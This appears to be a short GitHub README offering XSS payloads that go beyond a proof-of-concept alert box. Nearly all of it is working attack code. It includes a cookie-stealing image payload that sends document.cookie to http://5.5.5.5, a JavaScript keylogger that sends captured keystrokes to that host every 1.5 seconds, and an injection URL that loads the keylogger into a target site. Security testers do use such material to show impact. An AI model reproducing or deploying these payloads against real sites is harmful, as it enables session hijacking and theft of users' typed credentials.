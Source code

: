 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
  ```js
  <img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
  ```

- Record key stokes

  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```
  Then call the script in using xss
  ```js
  http://target.site/welcome.php?user=admin<script src='http://5.5.5.5/keylogger.js'></script>
  ```

